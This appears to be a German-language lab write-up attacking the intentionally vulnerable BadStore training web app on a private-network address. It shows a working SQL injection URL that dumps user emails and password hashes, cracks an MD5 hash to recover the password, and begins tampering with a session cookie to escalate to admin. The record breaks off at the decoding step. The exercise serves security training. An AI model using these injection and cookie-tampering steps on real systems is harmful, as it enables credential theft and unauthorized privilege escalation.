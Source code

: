 ## 6.5. Broken Access Control
### Erst mittels SQL Injection an die User Daten kommen:
```SQL
http://192.168.178.119/cgi-bin/badstore.cgi?searchquery=xx%27+IN+(itemnum,sdesc,ldesc)+union+select+email,passwd,null,null+from+userdb+LIMIT+2+--+&action=search&x=16&y=7
``` 

- User ist "AAA_Test_User", Passwort ist "098F6BCD4621D373CADE4E832627B4F6"

### Dann mittels https://hashes.com/en/decrypt/hash das Passwort rausfinden
- Die Daten sind *AAA_Test_user:test*

### Jetzt Cookie Tampering, um Privilege Escalation zu machen und Admin zu werden
- Cookie ist *SSOid=UFBX1Rlc3RfdXNlcjowOThmNmJjZDQ2MjFkMzczY2FkZTRlODMyNjI3YjRmNjpUZXN0IFVzZXI6%0AVQ%3D%3D%0A*
- Erst URL Decode: *UFBX1Rlc3RfdXNlcjowOThmNmJjZDQ2MjFkMzczY2FkZTRlODMyNjI3YjRmNjpUZXN0IFVzZXI6
VQ==*
- Vllt. base64 decode?